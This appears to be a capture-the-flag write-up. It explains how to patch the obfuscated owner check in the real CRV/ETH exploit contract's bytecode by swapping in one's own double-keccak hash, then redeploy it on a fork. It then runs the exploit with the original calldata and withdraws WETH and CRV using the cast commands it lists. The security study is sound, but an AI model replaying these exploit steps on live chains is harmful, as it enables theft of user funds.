


# Obstacle Race
## Task
You're an operator of one of the most successful generalized MEV bots and often prevent exploits before they even happen. But when the CRV/ETH hack happened, your setup wasn't capable of performing a whitehat. You decided to take the ["contract deployment transaction"](https://etherscan.io/tx/0x09f97e8053ba1b557dd9811d6572328a2cddc7d8576fc048af0a64c644d67edd), modify the bytecode (to learn how to handle similar situations in the future), and test it in a forked environment.

Could you execute the frontrun with this modified contract and then withdraw all saved funds to your wallet?

## Solution

### Analysis

The exploit contract contains built-in MEV protection that must be analyzed and bypassed. The best tool for this analysis is the [Dedaub decompiler](https://app.dedaub.com/ethereum/address/0x83e056ba00beae4d8aa83deb326a90a4e100d0c1/decompiled).

The exploit implements an obfuscated owner check:



Since the decompiler doesn't handle this perfectly, switching to the Yul version provides better insight into how variable `v0` is constructed:



For a clearer understanding of the assembly code, you can use Claude Code to add detailed comments. See the annotated example in `commented_func_0x9b9.sol`.

In summary, this function verifies that `keccak256(keccak256(tx.origin))` equals a specific hardcoded value.

The hardcoded value consists of two parts:
- **First byte**: `0xd2`
- **Next 31 bytes**: `0xa1110e34c4248ccfec2d3d08ccb14e1daa3c3c6b98578b7aa5139e85179b12`

### Bypassing the Protection

There are two approaches to bypass this check:
1. Replace the hardcoded hash parts with our own values
2. Patch the check itself (modify EQ to NEQ, GT, LT, etc.)

I chose the hash replacement method as it was straightforward to implement.

### Implementation Steps

1. **Calculate your double hash**
   ```bash
   keccak256(keccak256(your_address))
   ```

2. **Split the result into two 32-byte parts**
   
   My hash components:
   - First part: `0xf300000000000000000000000000000000000000000000000000000000000000`
   - Second part: `0xa80ccd8031f05e12624cc910af3a35652f25a76ef822a764e5d7c6abeff75600`

3. **Fetch the creation code of the exploit contract**

4. **Replace the exploiter's hash parts with yours**
   
   Using CTRL-F, locate and replace:
   - Exploiter's `0xd200000000000000000000000000000000000000000000000000000000000000` → Your first part
   - Exploiter's `0xa1110e34c4248ccfec2d3d08ccb14e1daa3c3c6b98578b7aa5139e85179b1200` → Your second part

5. **Deploy the patched contract**
   ```bash
   cast send --rpc-url RPC --private-key KEY --value 0 --create PATCHED_BYTECODE
   ```

6. **Execute the exploit function with original calldata**
   ```bash
   cast send --rpc-url RPC --private-key KEY PATCHED_EXPLOIT_ADDRESS \
   0xb61d27f6000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc200000000000000000000000000000000000000000000021e19e0c9bab2400000000000000000000000000000000000000000000000000000000000000000006000000000000000000000000000000000000000000000000000000000000000600000000000000000000000008301ae4fc9c624d1d396cbdaa1ed877821d7c511000000000000000000000000ed4064f376cb8d68f770fb1ff088a3d0f3ff5c4d000000000000000000000000d533a949740bb3306d119cc777fa900ba034cd52
   ```

7. **Withdraw WETH from the exploit contract**
   ```bash
   cast send --rpc-url RPC --private-key KEY PATCHED_EXPLOIT_ADDRESS \
   0x4f491f0b000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc2
   ```

8. **Withdraw CRV from the exploit contract**
   ```bash
   cast send --rpc-url RPC --private-key KEY PATCHED_EXPLOIT_ADDRESS \
   0x4f491f0b000000000000000000000000d533a949740bb3306d119cc777fa900ba034cd52
   ```